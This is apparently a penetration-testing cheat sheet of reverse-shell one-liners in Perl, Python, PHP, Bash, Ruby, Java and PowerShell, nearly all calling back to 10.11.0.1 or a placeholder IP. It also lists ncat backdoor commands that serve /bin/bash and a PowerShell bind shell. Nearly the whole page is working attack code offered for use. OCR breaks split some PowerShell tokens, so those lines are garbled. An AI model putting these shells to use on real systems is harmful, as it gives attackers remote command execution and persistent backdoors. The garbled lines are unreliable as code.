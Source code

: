 - [Perl](#Perl)
- [Python](#Python)
- [PHP](#PHP)
- [Bash](#Bash)
- [Ruby](#Ruby)
- [Java](#Java)
- [xterm](#xterm)
- [nc](#nc)
- [powershell](#powershell)

### Perl
```
perl -e 'use Socket;$i="10.11.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```
php -r '$sock=fsockopen("10.11.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Bash
```
bash -i >& /dev/tcp/10.11.0.1/8080 0>&1

bash -c 'bash -i >& /dev/tcp/10.11.0.1/8080 0>&1'
```

### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("<your _p>",<your_port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
```
xterm -display 10.11.0.1:1
```

### nc
- Listen to inbound connections
```
ncat -l 8080
```

- Connect to remote system
```
ncat [ip] [port]
```

- Listen to inbound connections UDP ports
```
ncat -l -u [port]
  check netstat -tunlp | grep [port]
```

- Connect to remote system UDP
```
ncat -v -u [ip] [port]
```

- nc as a proxy
```
 ncat -l port1 | ncat [ip] [port2]
  Now all the connections coming to our server on port [port1] will be automatically redirected to [ip] server on port [port2]
```

- create a backdoor
```
ncat -l [port] -e /bin/bash
ncat [ip] [port]
```

### powershell

- Reverse shell
```
$client = New-Object System.Net.Sockets.TCPClient('[your_ip]',[your_port]);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
$client.Close()
```

- Bind shell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client
= $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString
($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'P
S ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str
eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"
```



